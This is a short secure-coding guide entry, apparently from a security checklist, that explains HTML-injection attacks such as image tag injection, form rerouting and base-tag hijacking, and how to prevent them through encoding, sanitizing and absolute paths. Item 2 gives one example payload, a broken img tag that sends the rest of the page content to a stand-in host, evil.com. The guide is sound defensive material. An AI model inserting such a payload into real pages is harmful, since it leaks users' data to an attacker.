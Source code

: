 ## Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

## Solution:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs whenever an attacker can inject code into your application. It is very important to sanitize and or encode user data before you display it on screen as HTML.

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non-terminated parameter like: "img src='http://evil.com?steal.php?value= Every content after value= parameter will now be stolen and send to evil.com by the attacker till the injection finds the next occurrence of a matching single quote.
Again you should sanitize and encode the user input to prevent an image tag from being injected in your application. For whenever a user is permitted to submit an image on your application enforce and verify the application accepts valid non-broken tags only.

3.The "form" tag can't be nested. The top-level occurrence of this element always takes precedence over subsequent appearances. Again you must avoid this type by properly encoding and sanitizing your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because the tag specifies the base URL/target to where to process the data to.
The solution to base jumping would be to use absolute paths in your application such as  action='/update_profile.php'
instead of: action='update_profile.php'

5/6 can both also easily be prevented simply be encoding or sanitizing your user-input submitted towards your application.
Always validate your user input on a high level(server-side constraint). Whenever your application expects an integer you should validate and check whether the user submitted input really is what you expected it to be and otherwise, you terminate and log the request.

